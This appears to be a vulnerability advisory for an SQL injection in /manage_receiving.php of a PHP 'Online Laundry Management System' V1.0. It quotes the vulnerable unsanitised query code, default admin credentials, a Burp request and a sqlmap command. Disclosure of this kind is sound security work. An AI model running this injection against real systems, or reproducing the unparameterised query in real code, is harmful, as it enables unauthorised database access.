

## Online Laundry Management System

## SQL Injection on `/manage_receiving.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/manage_receiving.php
```

The potential injection point is located in `manage_receiving.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
if(isset($_GET['id'])){
	$qry = $conn->query("SELECT * FROM receiving_list where id=".$_GET['id'])->fetch_array();
	foreach($qry as $k => $val){
		$$k = $val;
	}
	$inv = $conn->query("SELECT * FROM inventory where type=1 and form_id=".$_GET['id']);

}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_receiving.php?id=1 HTTP/1.1
Host: 192.168.150.131
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=vti3ovjgtr57ia1sal7i2smkv7
Connection: close


```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot**


